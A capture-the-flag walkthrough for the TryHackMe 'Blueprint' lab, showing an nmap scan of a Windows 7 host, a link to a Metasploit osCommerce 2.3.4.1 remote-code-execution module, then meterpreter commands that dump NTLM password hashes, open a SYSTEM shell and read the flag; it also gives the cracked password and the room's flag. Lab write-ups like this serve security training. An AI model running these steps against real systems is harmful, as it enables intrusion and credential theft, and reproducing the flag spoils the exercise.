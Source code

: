 ```yaml
---
title: "Blueprint - TryHackMe"
author: Ludovic COULON
date: 2020-05-28
hero: ./images/hero.jpeg
excerpt: "Writeup for the Blueprint on TryHackMe"
---
```


[TryHackMe | Blueprint](https://tryhackme.com/room/blueprint)

<div className="Image__Small">
  <img src="https://webstockreview.net/images/win-clipart-blueprint-1.png" alt="blog_image" />
</div>

Do you have what is takes to hack into this Windows Machine?

`It might take around 3-4 minutes for the machine to boot.`

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.80.61
```

```bash
PORT      STATE SERVICE     REASON  VERSION
135/tcp   open  msrpc       syn-ack Microsoft Windows RPC

139/tcp   open  netbios-ssn syn-ack Windows 7 Home Basic 7601 Service Pack 1 netbios-ssn

443/tcp   open  ssl/http    syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

3306/tcp  open  mysql       syn-ack MariaDB (unauthorized)

8080/tcp  open  http        syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc       syn-ack Microsoft Windows RPC
49153/tcp open  msrpc       syn-ack Microsoft Windows RPC
49154/tcp open  msrpc       syn-ack Microsoft Windows RPC
49158/tcp open  msrpc       syn-ack Microsoft Windows RPC
Service Info: Hosts: www.example.com, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: 0s
| nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:05:ad:f5:e5:be (unknown)
| Names:
|   BLUEPRINT<00>        Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   BLUEPRINT<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02 05 ad f5 e5 be 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 41714/tcp): CLEAN (Couldnt connect)
|   Check 2 (port 54382/tcp): CLEAN (Couldnt connect)
|   Check 3 (port 22612/udp): CLEAN (Failed to receive data)
|   Check 4 (port 23038/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-28T19:03:48+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-28T18:03:50
|_  start_date: 2020-05-28T18:03:02
```

<div className="Image__Small">
  <img src="https://imgur.com/rUJpFMM.png" alt="blog_image" />
</div>

[osCommerce 2.3.4.1 - Remote Code Execution by DanielRTeixeira · Pull Request #9821 · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/pull/9821/files/b5681cb954bed6a1e64cf6708cbd5a937e596f5b)

<div className="Image__Small">
  <img src="https://imgur.com/nrRw0SU.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/lecapcm.png" alt="blog_image" />
</div>

### #1 "Lab" user NTML hash decrypted

```bash
meterpreter > run hashdump
```

<div className="Image__Small">
  <img src="https://imgur.com/J5xg1PX.png" alt="blog_image" />
</div>

```bash
googleplus
```

### #2 root.txt

```bash
meterpreter > shell
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> whoami
nt authority\system
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> cd C:\User\Administrator\Desktop
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> type root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>
